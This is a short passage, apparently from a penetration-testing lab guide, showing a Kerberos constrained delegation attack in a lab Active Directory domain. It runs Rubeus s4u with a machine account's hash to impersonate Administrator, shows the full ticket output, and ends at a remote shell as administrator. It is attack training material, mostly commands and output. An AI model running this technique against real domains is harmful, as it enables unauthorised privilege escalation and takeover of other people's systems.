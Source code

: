 
#### Constrained Delegation Attack
```powershell-session
PS C:\Tools> .\Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:www/WS01.inlanefreight.local /altservice:HTTP /user:DMZ01$ /rc4:ff955e93a130f5bb1a6565f32b7dc127 /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: S4U

[*] Using rc4_hmac hash: ff955e93a130f5bb1a6565f32b7dc127
[*] Building AS-REQ (w/ preauth) for: 'INLANEFREIGHT.LOCAL\DMZ01$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFMDCCBSygAwIBBaEDAgEWooIEMjCCBC5hggQqMIIEJqADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9D
      QUyiKDAmoAMCAQKhHzAdGwZrcmJ0Z3QbE0lOTEFORUZSRUlHSFQuTE9DQUyjggPcMIID2KADAgESoQMC
      <SNIP>


[*] Action: S4U

[*] Using domain controller: DC01.INLANEFREIGHT.LOCAL (fe80::c872:c68d:a355:e6f3%11)
[*] Building S4U2self request for: 'DMZ01$@INLANEFREIGHT.LOCAL'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'Administrator@INLANEFREIGHT.LOCAL' to 'DMZ01$@INLANEFREIGHT.LOCAL'
[*] base64(ticket.kirbi):

      doIGJDCCBiCgAwIBBaEDAgEWooIFEDCCBQxhggUIMIIFBKADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9D
      QUyiEzARoAMCAQGhCjAIGwZTUUwwMSSjggTPMIIEy6ADAgESoQMCAQGiggS9BIIEuY/s7XKb3zZMjzGB
      <SNIP>

[*] Impersonating user 'Administrator' to target SPN 'www/WS01.inlanefreight.local'
[*]   Final ticket will be for the alternate service 'http'
[*] Using domain controller: DC01.INLANEFREIGHT.LOCAL (fe80::c872:c68d:a355:e6f3%11)
[*] Building S4U2proxy request for service: 'www/WS01.inlanefreight.local'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] Substituting alternative service name 'http'
[*] base64(ticket.kirbi) for SPN 'http/WS01.inlanefreight.local':

      doIG/jCCBvqgAwIBBaEDAgEWooIF4DCCBdxhggXYMIIF1KADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9D
      QUyiKzApoAMCAQKhIjAgGwRodHRwGxhXUzAxLmlubGFuZWZyZWlnaHQubG9jYWyjggWHMIIFg6ADAgES
      <SNIP>
```

---

[ws01.inlanefreight.local]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami